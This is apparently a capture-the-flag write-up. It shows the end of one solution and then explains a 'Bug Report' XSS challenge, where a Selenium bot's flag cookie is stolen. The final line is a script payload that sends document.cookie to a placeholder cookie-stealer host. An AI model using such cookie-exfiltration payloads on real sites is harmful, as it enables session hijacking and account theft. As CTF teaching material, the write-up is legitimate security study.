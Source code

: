 ```
cd /
```

Then execute:

```
./readflag
```

We then get the flag:

```
CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}
```

##

## Bug Report

Solved By: Legacyy

This challenge is a fairly simple XSS, the catch is that the bot is using selenium which has some very unique properties when it comes to cookie management within a browser.

When you submit a url to be "bug checked" a bot makes a get request to the given url. This is especially useful to us because the bot has a cookie containing our flag as shown by the following `[bot.py](http://bot.py)` code snippet:

```python
browser.get('http://127.0.0.1:1337/')

browser.add_cookie({
    'name': 'flag',
    'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
})

try:
    browser.get(url)
    WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
except:
    pass
finally:
    browser.quit()
```

Paying close attention, before processing our request, the bot makes a get request to [`http://127.0.0.1:1337/`](http://127.0.0.1:1337/), meaning that due to how selenium `browser.add_cookie()` works, it will assign the cookie to that domain, meaning our XSS payload must refer to [`http://127.0.0.1:1337`](http://127.0.0.1:1337/). This is perfect for us because there is an XSS on [`http://127.0.0.1:1337/](http://127.0.0.1:1337/)<script>alert(1)</script>`. Using the above information and selenium's strange cookie behaviour, this is the format for a functional payload for this challenge :)

```javascript
http://127.0.0.1:1337/<script>document.location=`http://YOUR_COOKIE_STEALER_HERE/?c=${document.cookie}`</script>
```
